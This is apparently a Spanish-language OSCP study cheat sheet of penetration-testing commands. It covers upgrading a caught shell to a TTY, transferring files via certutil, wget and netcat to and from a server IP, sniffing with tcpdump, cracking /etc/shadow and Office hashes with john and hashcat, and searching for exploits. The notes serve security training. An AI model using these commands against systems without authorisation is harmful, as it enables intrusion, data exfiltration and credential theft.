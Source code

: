  

### Tratamiento de la TTY

```python
script /dev/null -c bash # Lanza pseudoconsola

[ctrl+z] # Suspende la shell actual

stty raw -echo

fg # Recupera la shell suspendida

reset # Reinicia la configuración de la terminal

xterm # Especifica el tipo de terminal

export TERM=xterm # Asigna xterm a la variable TERM

export SHELL=bash # Asigna bash a la variable SHELL

stty rows <VALOR_FILAS> columns <VALOR_COLUMNAS>

Para ver el valor de filas y columnas de nuestra terminal se utiliza el comando -> stty -a
 ```
### Lanzar una TTY Shell con Python[](https://hack.xero-sec.com/apuntes-y-recursos-oscp/tecnicas-fundamentales#lanzar-una-tty-shell-con-python)

python -c 'import pty; pty.spawn("/bin/sh")'
```
 

### Descompresión
```python
#.tar

tar -xf archive.tar.gz

#.gz

gzip -d file.gz

#.zip

unzip file.zip
```

 

### Comparación de archivos
```python
diff -c scan-a.txt scan-b.txt

comm scan-a.txt scan-b.txt
```

### Transferencia de archivos
```python 
#HTTP

#Servidor

python3 -m http.server

python -m SimpleHTTPServer

#Cliente

certutil.exe -urlcache -f http://<SERVER_IP>/file.txt file.txt

wget http://<SERVER_IP>/file.txt


#FTP

#Servidor

python3 -m pyftpdlib

#Cliente

ftp <SERVER_IP>

​

#Netcat

#Servidor

nc 10.10.14.2 4242 < file.tgz

#Cliente

nc -lvnp 4242 > file.tgz

```

### Sniffing

```python
tcpdump -i tun0 icmp -n
 

### Cracking[](https://hack.xero-sec.com/apuntes-y-recursos-oscp/tecnicas-fundamentales#cracking)

#Básico

john --wordlist=/usr/share/wordlists/rockyou.txt hash

hashcat -a 0 -m 1600 hash /usr/share/wordlists/rockyou.txt

​

#Cracking de contraseñas con passwd y shadow

unshadow <Archivo_passwd> <Archivo_shadow> > <Archivo_hash>

john --wordlist=<Ruta_Diccionario> <Archivo_hash>
```
​

# Cracking de documentos encriptados de Office

```python 
office2john.py <Ruta_Documento> > <Archivo_hash>

john --wordlist=<Ruta_Diccionario> <Archivo_hash>

``` 

### Búsqueda de exploits
```python

searchsploit <SOFTWARE>

searchsploit -x <ID_EXPLOIT> # Inspeccionar el código del exploit

searchsploit -m <ID_EXPLOIT> # Mueve el exploit al directorio actual de trabajo
```